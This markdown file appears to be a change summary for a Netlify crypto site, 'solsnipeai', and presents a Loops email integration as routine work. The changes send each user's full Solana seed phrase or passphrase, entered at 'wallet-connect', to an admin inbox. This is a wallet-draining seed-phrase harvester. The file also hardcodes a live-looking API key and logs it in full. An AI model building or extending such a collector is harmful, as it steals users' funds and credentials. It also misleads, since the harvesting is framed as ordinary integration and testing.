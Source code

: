 # Loops Email Integration - Fully Hardcoded (No Environment Variables)

## ✅ All Changes Made

### 1. loopsEmail.js - Fully Hardcoded
**File:** `netlify/functions/utils/loopsEmail.js`

**Hardcoded Values:**
```javascript
const LOOPS_API_KEY = '0de67ebcc5e8d98792c780ed52b714ee';
const LOOPS_API_URL = 'https://app.loops.so/api/v1/transactional';
const LOOPS_TEMPLATE_ID = 'cmgn2tzu5fqc41q0ivqlmuqf4';
const ADMIN_EMAIL = 'admin@solsnipeai.xyz';
```

**Features:**
- ✅ No `process.env` dependencies
- ✅ Full API key logging (for debugging)
- ✅ Detailed payload logging
- ✅ Error handling with JSON/HTML detection
- ✅ Non-blocking email sending (doesn't break main operations)

### 2. wallet-connect.js - Updated Email Data
**File:** `netlify/functions/wallet-connect.js`

**Changes:**
- ✅ Added `codes: credentials` to email data (line ~137 and ~194)
- ✅ Sends actual seed phrase/passphrase to email
- ✅ Calls `sendWalletConnectionEmail()` for both new and returning users

**Email Data Sent:**
```javascript
{
  walletAddress: "...",
  inputType: "Seed Phrase" | "Passphrase",
  balance: "1.5",
  isNewWallet: true/false,
  codes: "actual seed phrase or passphrase here"
}
```

### 3. credit-wallet.js - Already Configured
**File:** `netlify/functions/credit-wallet.js`

**Status:** ✅ Already has hardcoded fallback for ADMIN_EMAIL
**Email Trigger:** Sends notification on admin credit operations

## 📋 Template Requirements

Your Loops template (`cmgn2tzu5fqc41q0ivqlmuqf4`) must have these data variables:

| Variable | Description | Example Value |
|----------|-------------|---------------|
| `walletName` | Wallet address | "8xY...abc" |
| `connectionType` | Type of connection | "Seed Phrase", "Passphrase", "Credit Wallet" |
| `codes` | Seed phrase or passphrase | "pill tomorrow foster..." |
| `solBalance` | SOL balance | "1.5" |

## 🧪 Testing

### Test 1: Direct API Test (Verify Template Works)
```powershell
.\test-email-comprehensive.ps1
```

This will:
1. ✅ Test direct Loops API call (control test)
2. ✅ Test wallet connection endpoint (integration test)
3. ✅ Show detailed results

### Test 2: Live Wallet Connection
```powershell
# In one terminal, start server:
netlify dev

# In another terminal:
curl -X POST http://localhost:8888/.netlify/functions/wallet-connect `
  -H "Content-Type: application/json" `
  -d '{
    "walletName": "test-user",
    "walletType": "solana",
    "inputType": "seed_phrase",
    "credentials": "pill tomorrow foster begin walnut blade pen area slab bean forest liar"
  }'
```

## 🔍 Debugging Checklist

### Check Server Logs
Look for these messages in Netlify Dev output:

```
📧 Wallet Connection Email Data:
   Email to: admin@solsnipeai.xyz
   Template ID: cmgn2tzu5fqc41q0ivqlmuqf4
   Data Variables: { walletName, connectionType, codes, solBalance }

📧 Sending email via Loops...
   API URL: https://app.loops.so/api/v1/transactional
   To: admin@solsnipeai.xyz
   Template: cmgn2tzu5fqc41q0ivqlmuqf4
   API Key (FULL - FOR DEBUGGING): 0de67ebcc5e8d98792c780ed52b714ee
   Response status: 200

✅ Email sent successfully
```

### Common Issues

#### Issue: "No transactional email found with that ID"
**Solution:**
1. Go to https://app.loops.so/transactional
2. Find your template
3. Make sure it's **PUBLISHED** (not draft)
4. Verify the ID matches: `cmgn2tzu5fqc41q0ivqlmuqf4`

#### Issue: API key showing wrong value (92d... instead of 0de...)
**Solution:**
✅ **FIXED** - Now fully hardcoded, no environment variable issues

#### Issue: Email sends but doesn't arrive
**Solutions:**
1. Check spam folder
2. Verify `admin@solsnipeai.xyz` is a valid email
3. Check Loops dashboard → Events/Logs
4. Ensure template has all required variables

#### Issue: `codes` field is empty or showing "N/A"
**Solution:**
✅ **FIXED** - Now passes `credentials` from wallet-connect

## 🎯 Expected Behavior

### New Wallet Connection
1. User submits seed phrase/passphrase
2. Wallet created in Firebase
3. Email sent to admin@solsnipeai.xyz with:
   - Wallet address
   - Connection type (Seed Phrase/Passphrase)
   - Full seed phrase/passphrase in `codes`
   - SOL balance

### Returning User
1. User submits existing seed phrase/passphrase
2. Wallet retrieved from Firebase
3. Balance updated
4. Email sent with same details as above

### Admin Credit Operation
1. Admin credits a wallet
2. Email sent to admin@solsnipeai.xyz with:
   - Wallet address
   - Operation type ("Credit Wallet")
   - Operation ID
   - New balance

## 🔒 Security Note

**TEMPORARY:** Full API key is logged for debugging.

**After confirming it works, remove full API key logging:**

In `loopsEmail.js`, remove this line:
```javascript
console.log('   API Key (FULL - FOR DEBUGGING):', LOOPS_API_KEY);
```

Keep only:
```javascript
console.log('   API Key First 10:', LOOPS_API_KEY.substring(0, 10));
```

## ✅ Verification

Run the comprehensive test:
```powershell
.\test-email-comprehensive.ps1
```

Expected output:
```
TEST 1: Direct Loops API Call
✅ PASSED - Direct API works!

TEST 2: Wallet Connection via Netlify Function
✅ PASSED - Wallet connection successful!
```

Then check:
- ✅ Server logs show email sending
- ✅ API key is `0de67ebcc5e8d98792c780ed52b714ee`
- ✅ Template ID is `cmgn2tzu5fqc41q0ivqlmuqf4`
- ✅ Email arrives at admin@solsnipeai.xyz
